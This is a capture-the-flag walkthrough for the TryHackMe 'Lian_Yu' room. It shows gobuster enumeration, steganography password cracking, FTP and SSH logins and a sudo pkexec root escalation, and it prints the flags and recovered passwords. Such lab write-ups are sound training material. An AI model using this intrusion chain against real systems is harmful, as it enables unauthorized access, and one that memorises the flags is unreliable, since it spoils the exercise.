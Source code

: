 # Lian_Yu

A beginner level security challenge

Room URL: https://tryhackme.com/room/lianyu

---

# Task 1

1. Deploy the VM and Start the Enumeration.

No answer needed

2. What is the Web Directory you found?

Running gobuster shows an `/island` directory and running gobuster against that
shows a `/2100` directory

```bash
$ gobuster dir -w ~/projects/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.252.43/
/island (Status: 200)
$ gobuster dir -w ~/projects/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.252.43/island/
/2100 (Status: 200)
```

The source of `/island` hints at something being `vigilante` which could be a
username/password.

```
2100
```

3. What is the file name you found?

The source of the `/island/2100` page hints at a file extension: `.ticket`.
Running gobuster against this directory with this specific file extension
returns a file:

```bash
$ gobuster dir -w ~/projects/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.252.43/island/2100 -x "ticket"
/green_arrow.ticket (Status: 200)
```

4. What is the FTP Password?

The contents of the`/green_arrow.ticket` file has some encoded string. By using
[cyberchef](https://tinyurl.com/yb3fevmw) I was able to deduce that the string
is base58 encoded.

```
!#th3h00d
```

5. What is the file name with SSH password?

By using the `vigilante` username and the password of the previous question I am
able to log in to the ftp server. There are several files in the homedir of
vigilante. I've downloaded them to my machine. I also noticed a homedir of the
user `slade`. Running `stegcracker` against one of the downloaded files `aa.jpg`
with the `rockyou.txt` wordlist reveals there's a password `password`. Running
`steghide` with that password reveals a file called `ss.zip`. This file contains
two files: `passwd.txt` and `shado`. The latter actually contains a password.

```
shado
```

6. user.txt

The password in the `shado` file doesn't help us authenticate against the
vigilante user with SSH. It does allow access to the `slade` user though, and in
their homedir there's the user.txt flag.

```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

7. root.txt

`sudo -l` reveals we can use `/usr/bin/pkexec`, so let's just run
`sudo /usr/bin/pkexec /bin/sh`

```bash
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
root.txt
# cat root.txt
```

And there's the flag!

```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```
